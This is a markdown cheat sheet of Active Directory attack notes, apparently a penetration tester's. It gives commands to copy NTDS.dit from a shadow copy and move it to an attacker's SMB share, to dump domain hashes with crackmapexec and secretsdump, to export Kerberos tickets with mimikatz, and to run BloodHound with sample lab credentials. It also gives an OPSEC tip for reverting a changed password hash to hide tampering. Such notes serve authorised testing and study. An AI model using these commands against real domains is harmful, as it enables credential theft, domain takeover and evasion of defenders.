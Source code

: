 # AD Tips

% active diretory

## Manual dumping NTDS.DIT as a user in Admin group/DA group
```
# Check local group membership > Admin group ?
net localgroup

# Check user priv including Domain
net user <USERNAME>

# Shadow copy of C:i, note the Shado copy volume name
vssadmin CREATE SHADOW /For=C:

# Copy NTDS.DIT form the VSS
# example: cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
cmd.exe /c copy \\?\GLOBALROOT\Device\<..> c:\NTDS\NTDS.dit

# Create a SMB share on the attacker's machine

#  Transferring NTDS.dit to Attack Host
cmd.exe /c move C:\NTDS\NTDS.dit \\<ATK IP>\<SHARENAME>
```

## Dumping NTDS.DIT - netexec (uses VSS)
```
crackmapexec smb <IP> -u <USER> -p <PASSWD> --ntds
```

## Harvest kerberos tickets from windows
```
# Harvest kerberos tickets from windows

# From mimikatz
mimikatz # privilege::debug
sekurlsa::tickets /export

dir *.kirbi
```

## Bloodhound - Finding non-default AD groups from injestor JSON output
```
#Bloodhound - Finding non-default AD groups from injestor JSON output 
# Non-default AD groups have the last part of their domains SID > 1000
 cat 20250731161542_groups.json | jq '.data[]
        | select((.ObjectIdentifier | split("-") | last | tonumber) > 1000)
        | [.ObjectIdentifier, .Properties.name, .Properties.whencreated]'
# DNS Admin which SID > 1000 is a default group, ignore it
```

# Faketime - Adhoc Kerberos auth
```
# Using faketime + ntpdate to avoid KRB_AP_ERR_SKEW(Clock skew too great)

# Internal or via ligolo
faketime "$(ntpdate -q dc01.ad.lab | cut -d ' ' -f 1,2)" \
bloodhound-python -c All -u joan.hesther -p 'madison' -d ad.lab -ns 10.80.80.2

# Through proxy or ssh
proxychains -q faketime "$(ntpdate -q dc01.ad.lab | cut -d ' ' -f 1,2)" \ 
bloodhound-python -c All -u joan.hesther -p 'madison' -d ad.lab -ns 10.80.80.2 --dns-tcp

# source : https://notes.benheater.com/books/active-directory/page/using-faketime-for-ad-hoc-kerberos-authentication
```

# impacket - secretsdumps
```
Useful options :
-pwd-last-set -user-status -history

Faster cracking if recent passwords are a variation of older ones that got cracked.

Opsec :
If you used ForcedPassword on a user to set a users's password
You can revert the user's hash to its previous value to make it appear unchanged
```

# Reminder : Domain name resolution
```
1. Domain/DC name resolution
Once you've found a domain name + a DC for it, add to the /etc/hosts the matching resolution :
X.X.X.X domain.tld dc.domain.tld dc01.domain.tld

When authenticating using kerberos, replace :
- DC IP <> DC name matching in the IP in /etc/hosts

It is especially when using kerberos authentication and avoid LDAP authentication errors
2. Name server
Specify the DC's ip for a given domain using -ns/-nameserver parameters in most tools.
```

## Using NT:LM hash
```
# Prepend NT hashes with ':' !(Or use NT:LM hash in its entirety) Beware of authentication failures because of this
```

## Bloodhound - Run systematically an Injestor after each compromission
```
# If the OPSEc allows it, run systematically the injestor after each user compromission.
```
